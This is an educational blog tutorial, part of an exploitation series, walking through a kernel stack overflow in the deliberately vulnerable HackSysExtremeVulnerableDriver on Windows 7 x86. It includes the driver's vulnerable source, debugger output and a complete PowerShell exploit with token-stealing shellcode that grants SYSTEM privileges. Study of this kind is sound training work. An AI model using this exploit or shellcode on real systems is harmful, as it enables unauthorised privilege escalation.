

NTSTATUS TriggerStackOverflow(IN PVOID UserBuffer, IN SIZE_T Size) {
NTSTATUS Status = STATUS_SUCCESS;
ULONG KernelBuffer[BUFFER_SIZE] = {0};
PAGED_CODE();
__try {
// Verify if the buffer resides in user mode
ProbeForRead(UserBuffer, sizeof(KernelBuffer), (ULONG)__alignof(KernelBuffer));
DbgPrint("[+] UserBuffer: 0x%p\n", UserBuffer);
DbgPrint("[+] UserBuffer Size: 0x%X\n", Size);
DbgPrint("[+] KernelBuffer: 0x%p\n", &KernelBuffer);
DbgPrint("[+] KernelBuffer Size: 0x%X\n", sizeof(KernelBuffer));
#ifdef SECURE
// Secure Note: This is secure because the developer is passing a size
// equal to size of KernelBuffer to RtlCopyMemory()/memcpy(). Hence,
// there will be no overflow
RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, sizeof(KernelBuffer));
#else
DbgPrint("[+] Triggering Stack Overflow\n");
// Vulnerability Note: This is a vanilla Stack based Overflow vulnerability
// because the developer is passing the user supplied size directly to
// RtlCopyMemory()/memcpy() without validating if the size is greater or
// equal to the size of KernelBuffer
RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, Size);
#endif
}
__except (EXCEPTION_EXECUTE_HANDLER) {
Status = GetExceptionCode();
DbgPrint("[-] Exception Code: 0x%X\n", Status);
}
return Status;
}
Part 10: Kernel Exploitation -> Stack Overflow
Hola, and welcome back to part 10 of this series, returning after 3+ years intermission! We will start our journey down to ring0 and gradually tackle new challenges as we face them! In this part we will look at a plain stack overflow in kernel space on Windows 7 (no SMEP & SMAP). Our target here is 32-bit but that does not put us at an advantage, with some minor changes the same exploit could be made to work on 64-bit.
For our target driver we will use a most excellent project by @HackSysTeam, they have create a demo driver with a number of vulnerabilities built in to practise kernel exploitation, sw33t! Ok, let's get to it!
Resources:
+ HackSysExtremeVulnerableDriver (hacksysteam) - here
+ Kernel Data Structures (CodeMachine) - here
+ x64 Kernel Privilege Escalation (McDermott) - here
+ Abusing GDI for ring0 exploit primitives (Core Security) - here
+ VirtualKD - here
+ Kernel debugging with IDA Pro, Windbg plugin and VirtualKd (hexblog) - here
+ OSR Driver Loader - here
Environment Setup
Just for this first part I want to briefly touch on the debugging environment as setting it up used to be painful. Specifically, this setup targets users with a Windows base (Yea, I know, deal with it!).
First grab VirtualKD from the link above and once extracted install the target component in the VM you will be debugging.
Once that is done start the vmmon binary on your base (x32/x64) and restart the VM in question. You should see something like this.
If you configure the "Debugger path..", point it at WinDBG in your base and then select the VirtualKD boot option in the VM you should automatically attach to the machine. Easy & painless!
That still leaves loading the vulnerable driver. To do this, grab the OSR driver loader from the link above (you will need to register -> disposable email). Start the OSR loader and register the service (you may need to reboot), after this is done, click browse, select the driver and click start service. If all goes well you should see something like this.

If you are connected to the machine with WinDBG you can check that the driver was loaded successfully by using the "lm" command.
Optionally, see the guide on hooking up IDA Pro to VirtualKD as well. Even if you don't have IDA Pro, I recommend downloading the free version just to have access to the graph view. You can manually rebase the driver to match what you see in WinDBG (Edit -> Segments -> Rebase program). That way you can visually see what is going on, what addresses to break on and manually port that information to WinDBG.
Recon the challenge
Ok, as mentioned above, we are doing the stack overflow challenge in this part. As HackSysTeam provides us with the source for the driver we may as well have a look at the relevant part!
Again, great work here on showing the vulnerability but also showing what the fix would be. RtlCopyMemory takes a pointer to the kernel buffer, a pointer to the input buffer and an integer to know how many bytes to copy over. Clearly there is an issue here, in the vulnerable version the buffer size is based in the input buffer size whereas in the secure version the size is limited to the size of the kernel buffer. If we call this driver function and pass it a buffer which is larger than the kernel buffer we should get some kind of exploit primitive!
Ok, let's have a look at the IrpDeviceIoCtlHandler table in IDA, here the driver compares the input IOCTL with the ones it knows about.
Quite a few IOCTL's! Moving to the left side of this graph we see the following.
We can see that if the IOCTL is 0x222003 we will branch into the TriggerStackOverflow function call. Take some time to investigate this switch statement. Basically, the input IOCTL is compared by doing greater than / less than to branch and then subtracting till a valid code is found or till the switch statement hits the "Invalid IOCTL.." block.
Looking at the TriggerStackOverflow function we can more or less see what we found in the source, notice also that the kernel buffer has a length of 0x800 (2048).
Pwn all the things!
Controlling EIP
We have all the info we need for now, let's try to call the vulnerable method and pass it some data. This is the template code I came up with in PowerShell.
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr VirtualAlloc(
IntPtr lpAddress,
uint dwSize,
UInt32 flAllocationType,
UInt32 flProtect);
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public static extern IntPtr CreateFile(
String lpFileName,
UInt32 dwDesiredAccess,
UInt32 dwShareMode,
IntPtr lpSecurityAttributes,
UInt32 dwCreationDisposition,
UInt32 dwFlagsAndAttributes,
IntPtr hTemplateFile);
[DllImport("Kernel32.dll", SetLastError = true)]
public static extern bool DeviceIoControl(
IntPtr hDevice,
int IoControlCode,
byte[] InBuffer,
int nInBufferSize,
byte[] OutBuffer,
int nOutBufferSize,
ref int pBytesReturned,
IntPtr Overlapped);
[DllImport("kernel32.dll")]
public static extern uint GetLastError();
}
"@
$hDevice = [EVD]::CreateFile("\\.\HacksysExtremeVulnerableDriver", [System.IO.FileAccess]::ReadWrite,
[System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
echo "`n[!] Unable to get driver handle..`n"
Return
} else {
echo "`n[>] Driver information.."
echo "[+] lpFileName: \\.\HacksysExtremeVulnerableDriver"
echo "[+] Handle: $hDevice"
}
$Buffer = [Byte[]](0x41)*0x100
echo "`n[>] Sending buffer.."
echo "[+] Buffer length: $($Buffer.Length)"
echo "[+] IOCTL: 0x222003`n"
[EVD]::DeviceIoControl($hDevice, 0x222003, $Buffer, $Buffer.Length, $null, 0, [ref]0, [System.IntPtr]::Zero)
|Out-null
Excellent, from the debugger output we can see we managed to call our target function. Obviously we are not sending enough data to trigger the overflow. Let's try that again but send a buffer of 0x900 (2304) bytes.
Ok, so we managed to BSOD the VM, doing some minor calculations we can find out the exact offset to EIP (and EBP for that matter). I leave this as an exercise for the reader (pattern_create is your friend). Let's modify our POC and trigger the overflow again.
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr VirtualAlloc(
IntPtr lpAddress,
uint dwSize,
UInt32 flAllocationType,
UInt32 flProtect);
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public static extern IntPtr CreateFile(
String lpFileName,
UInt32 dwDesiredAccess,
UInt32 dwShareMode,
IntPtr lpSecurityAttributes,
UInt32 dwCreationDisposition,
UInt32 dwFlagsAndAttributes,
IntPtr hTemplateFile);
[DllImport("Kernel32.dll", SetLastError = true)]
public static extern bool DeviceIoControl(
IntPtr hDevice,
int IoControlCode,
byte[] InBuffer,
int nInBufferSize,
byte[] OutBuffer,
int nOutBufferSize,
ref int pBytesReturned,
IntPtr Overlapped);
[DllImport("kernel32.dll")]
public static extern uint GetLastError();
}
"@
$hDevice = [EVD]::CreateFile("\\.\HacksysExtremeVulnerableDriver", [System.IO.FileAccess]::ReadWrite,
[System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
echo "`n[!] Unable to get driver handle..`n"
Return
} else {
echo "`n[>] Driver information.."
echo "[+] lpFileName: \\.\HacksysExtremeVulnerableDriver"
echo "[+] Handle: $hDevice"
}
#---[EIP control]
# 0x41 = 0x800 (buffer allocated by the driver)
# 0x42 = 28 (filler)
# 0x43 = 4 (EBP)
# 0x44 = 4 (EIP)
#---
$Buffer = [Byte[]](0x41)*0x800 + [Byte[]](0x42)*28 + [Byte[]](0x43)*4 + [Byte[]](0x44)*4
echo "`n[>] Sending buffer.."
echo "[+] Buffer length: $($Buffer.Length)"
echo "[+] IOCTL: 0x222003`n"
[EVD]::DeviceIoControl($hDevice, 0x222003, $Buffer, $Buffer.Length, $null, 0, [ref]0, [System.IntPtr]::Zero)
|Out-null
Shellcode
So we have code exec in kernel space but we can't just execute whatever kind of shellcode we want! There is a lot of stuff we can try (eg. writing a ring3 shellcode stager) but I think it's best to keep it to a simple privilege escalation attack for now.
In Windows all objects have security descriptors which define who can perform what actions on the object in question. There are many kinds of tokens which describe such access permissions but the "NT AUTHORITY\SYSTEM" token has the most privileges. That is to say it can perform any action on any object on the system (kind of, it's complicated mmkay). At a very basic level, what we want our shellcode to do is: (1) find the token of the current process (powershell), (2) loop through the list of processes till we find a system process (PID 4 is good because it is a static system process PID), (3) find the token of that process and (4) overwrite our token.
As writing the shellcode is a bit lengthy, in that you need to look up a number of static offsets, I won't cover the process here. For a detailed description, the "x64 Kernel Privilege Escalation" article can be consulted here, additionally the HackSysTeam driver comes with sample payloads which can be found here. The general structure of the shellcode can be seen below.
#---[Setup] pushad ; Save register state mov eax, fs:[KTHREAD_OFFSET] ; nt!_KPCR.PcrbData.CurrentThread mov eax, [eax + EPROCESS_OFFSET] ; nt!_KTHREAD.ApcState.Process mov ecx, eax mov ebx, [eax + TOKEN_OFFSET] ; nt!_EPROCESS.Token #---[Copy System PID token] mov edx, 4 ; PID 4 -> System mov eax, [eax + FLINK_OFFSET] <-| ; nt!_EPROCESS.ActiveProcessLinks.Flink sub eax, FLINK_OFFSET | cmp [eax + PID_OFFSET], edx | ; nt!_EPROCESS.UniqueProcessId jnz ->| ; Loop !(PID=4) mov edx, [eax + TOKEN_OFFSET] ; System nt!_EPROCESS.Token mov [ecx + TOKEN_OFFSET], edx ; Replace PowerShell token #---[Recover] popad ; Restore register state
This solution is serviceable but one thing is missing. When we trigger the overflow and run our shellcode we slightly mess up the stack. We want our shellcode to append the missing instructions so we don't BSOD the box after duplicating the System token.
A closer investigation of the crash reveals that we actually gain control over EIP by overwriting the return address when we exit the TriggerStackOverflow function.
Let's place a breakpoint on that address and send the driver a small buffer so we can see what is supposed to happen during normal execution.
****** HACKSYS_EVD_STACKOVERFLOW ****** [+] UserBuffer: 0x01F454A8 [+] UserBuffer Size: 0x100 [+] KernelBuffer: 0x93E933B4 [+] KernelBuffer Size: 0x800 [+] Triggering Stack Overflow Breakpoint 0 hit HackSysExtremeVulnerableDriver+0x45ce: 936045ce c20800 ret 8 <-------[Stack] 93e93bd4 936045f4 HackSysExtremeVulnerableDriver+0x45f4 93e93bd8 01f454a8 93e93bdc 00000100 93e93be0 93e93bfc 93e93be4 9360503d HackSysExtremeVulnerableDriver+0x503d HackSysExtremeVulnerableDriver+0x45f4: 936045f4 5d pop ebp <-------[Stack] 93e93be0 93e93bfc 93e93be4 9360503d HackSysExtremeVulnerableDriver+0x503d 93e93be8 856cc268 HackSysExtremeVulnerableDriver+0x45f5: 936045f5 c20800 ret 8 <-------[Stack] 93e93be4 9360503d HackSysExtremeVulnerableDriver+0x503d 93e93be8 856cc268 93e93bec 856cc2d8 93e93bf0 84be4a80
Now let's have a look what the stack looks like when we trigger the overflow.
****** HACKSYS_EVD_STACKOVERFLOW ******
[+] UserBuffer: 0x01DE8608
[+] UserBuffer Size: 0x824
[+] KernelBuffer: 0x93B4B3B4
[+] KernelBuffer Size: 0x800
[+] Triggering Stack Overflow
Breakpoint 0 hit
HackSysExtremeVulnerableDriver+0x45ce:
936045ce c20800 ret 8 <-------[Stack] 93b4bbd4 44444444
93b4bbd8 01de8608
93b4bbdc 00000824
93b4bbe0 93b4bbfc
93b4bbe4 9360503d HackSysExtremeVulnerableDriver+0x503d
Luckily, as we are doing a precise overwrite, this is not too bad. After our shellcode runs we simply need to emulate the "pop ebp" and "ret 8", this way execution flow will be redirected at back at HackSysExtremeVulnerableDriver+0x503d as per usual. Though it is not obvious, we also want to null EAX as this will make it seem like the driver function returned NTSTATUS->STATUS_SUCCESS (0x00000000).
That should do the trick! The final shellcode can be seen below:
$Shellcode = [Byte[]] @( #---[Setup] 0x60, # pushad 0x64, 0xA1, 0x24, 0x01, 0x00, 0x00, # mov eax, fs:[KTHREAD_OFFSET] 0x8B, 0x40, 0x50, # mov eax, [eax + EPROCESS_OFFSET] 0x89, 0xC1, # mov ecx, eax (Current _EPROCESS structure) 0x8B, 0x98, 0xF8, 0x00, 0x00, 0x00, # mov ebx, [eax + TOKEN_OFFSET] #---[Copy System PID token] 0xBA, 0x04, 0x00, 0x00, 0x00, # mov edx, 4 (SYSTEM PID) 0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, # mov eax, [eax + FLINK_OFFSET] <-| 0x2D, 0xB8, 0x00, 0x00, 0x00, # sub eax, FLINK_OFFSET | 0x39, 0x90, 0xB4, 0x00, 0x00, 0x00, # cmp [eax + PID_OFFSET], edx | 0x75, 0xED, # jnz ->| 0x8B, 0x90, 0xF8, 0x00, 0x00, 0x00, # mov edx, [eax + TOKEN_OFFSET] 0x89, 0x91, 0xF8, 0x00, 0x00, 0x00, # mov [ecx + TOKEN_OFFSET], edx #---[Recover] 0x61, # popad 0x31, 0xC0, # NTSTATUS -> STATUS_SUCCESS :p 0x5D, # pop ebp 0xC2, 0x08, 0x00 # ret 8 )
On a side-note, I wrote out the assembly and compiled it with the Keystone Engine (Get-KeystoneAssembl).
Game Over
We have everything we need now, all that remains is to allocate our shellcode somewhere in memory and overwrite EIP with it's address. Remember that the shellcode memory should be marked as Read/Write/Execute. The full exploit can be seen below.
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr VirtualAlloc(
IntPtr lpAddress,
uint dwSize,
UInt32 flAllocationType,
UInt32 flProtect);
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public static extern IntPtr CreateFile(
String lpFileName,
UInt32 dwDesiredAccess,
UInt32 dwShareMode,
IntPtr lpSecurityAttributes,
UInt32 dwCreationDisposition,
UInt32 dwFlagsAndAttributes,
IntPtr hTemplateFile);
[DllImport("Kernel32.dll", SetLastError = true)]
public static extern bool DeviceIoControl(
IntPtr hDevice,
int IoControlCode,
byte[] InBuffer,
int nInBufferSize,
byte[] OutBuffer,
int nOutBufferSize,
ref int pBytesReturned,
IntPtr Overlapped);
[DllImport("kernel32.dll")]
public static extern uint GetLastError();
}
"@
# Compiled with Keystone-Engine
# Hardcoded offsets for Win7 x86 SP1
$Shellcode = [Byte[]] @(
#---[Setup]
0x60, # pushad
0x64, 0xA1, 0x24, 0x01, 0x00, 0x00, # mov eax, fs:[KTHREAD_OFFSET]
0x8B, 0x40, 0x50, # mov eax, [eax + EPROCESS_OFFSET]
0x89, 0xC1, # mov ecx, eax (Current _EPROCESS structure)
0x8B, 0x98, 0xF8, 0x00, 0x00, 0x00, # mov ebx, [eax + TOKEN_OFFSET]
#---[Copy System PID token]
0xBA, 0x04, 0x00, 0x00, 0x00, # mov edx, 4 (SYSTEM PID)
0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, # mov eax, [eax + FLINK_OFFSET] <-|
0x2D, 0xB8, 0x00, 0x00, 0x00, # sub eax, FLINK_OFFSET |
0x39, 0x90, 0xB4, 0x00, 0x00, 0x00, # cmp [eax + PID_OFFSET], edx |
0x75, 0xED, # jnz ->|
0x8B, 0x90, 0xF8, 0x00, 0x00, 0x00, # mov edx, [eax + TOKEN_OFFSET]
0x89, 0x91, 0xF8, 0x00, 0x00, 0x00, # mov [ecx + TOKEN_OFFSET], edx
#---[Recover]
0x61, # popad
0x31, 0xC0, # NTSTATUS -> STATUS_SUCCESS :p
0x5D, # pop ebp
0xC2, 0x08, 0x00 # ret 8
)
# Write shellcode to memory
echo "`n[>] Allocating ring0 payload.."
[IntPtr]$Pointer = [EVD]::VirtualAlloc([System.IntPtr]::Zero, $Shellcode.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($Shellcode, 0, $Pointer, $Shellcode.Length)
$EIP = [System.BitConverter]::GetBytes($Pointer.ToInt32())
echo "[+] Payload size: $($Shellcode.Length)"
echo "[+] Payload address: $("{0:X8}" -f $Pointer.ToInt32())"
# Get handle to driver
$hDevice = [EVD]::CreateFile("\\.\HacksysExtremeVulnerableDriver", [System.IO.FileAccess]::ReadWrite,
[System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
echo "`n[!] Unable to get driver handle..`n"
Return
} else {
echo "`n[>] Driver information.."
echo "[+] lpFileName: \\.\HacksysExtremeVulnerableDriver"
echo "[+] Handle: $hDevice"
}
# HACKSYS_EVD_STACKOVERFLOW IOCTL = 0x222003
#---
$Buffer = [Byte[]](0x41)*0x800 + [Byte[]](0x42)*32 + $EIP
echo "`n[>] Sending buffer.."
echo "[+] Buffer length: $($Buffer.Length)"
echo "[+] IOCTL: 0x222003`n"
[EVD]::DeviceIoControl($hDevice, 0x222003, $Buffer, $Buffer.Length, $null, 0, [ref]0, [System.IntPtr]::Zero)
|Out-null